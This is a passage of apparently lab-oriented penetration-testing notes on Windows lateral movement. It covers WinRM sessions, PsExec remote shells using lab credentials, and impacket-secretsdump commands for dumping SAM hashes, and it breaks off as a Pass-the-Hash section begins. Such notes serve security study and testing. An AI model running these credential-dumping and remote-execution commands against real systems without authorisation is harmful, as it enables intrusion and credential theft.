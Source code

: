 ```powershell
 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
  
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```
### PsExec
In order to misuse this tool for lateral movement, a few requisites must be met. To begin, the user that authenticates to the target machine needs to be part of the Administrators local group. In addition, the *ADMIN$* share must be available and File and Printer Sharing has to be turned on. Luckily for us, the last two requirements are already met as they are the default settings on modern Windows Server systems.

In order to execute the command remotely, PsExec performs the following tasks:
- Writes **psexesvc.exe** into the **C:\Windows** directory.
- Creates and spawns a service on the remote host.
- Runs the requested program/command as a child process of **psexesvc.exe**.

In order to start an interactive session on the remote host, we need to invoke **PsExec64.exe** with the **-i** argument, followed by the target hostname prepended with two backslashes. We'll then specify corp\jen as **domain\username** and Nexus123! as password with the **-u** and **-p** arguments respectively. Lastly, we include the process we want to execute remotely, which is a command shell in this case.
```powershell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

### Secretsdump
This tool from impacket uses port 445 to dump SAM hashes that can later be cracked and to extract other secrets (eg. those found in windows.old folders):
```sh
impacket-secretsdump [[domain/]username[:password]@]<targetName or address> [-outputfile OUTPUTFILE] [-hashes LMHASH:NTHASH] 
impacket-secretsdump Administrator:December31@192.168.133.153 -outputfile hashes
```

This tool allows also to extract all the hashes for you from the SAM file with the following command:
```
impacket-secretsdump -sam loot/sam -system loot/system LOCAL
```
these can later be cracked following [Cracking NT hashes](https://gist.github.com/A-Pisani/a79808e058ccc49bcf71921a05d51f80#cracking-nt-hashes) or you can pass the hash using them.
### Pass the Hash
The Pass the Hash (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. 
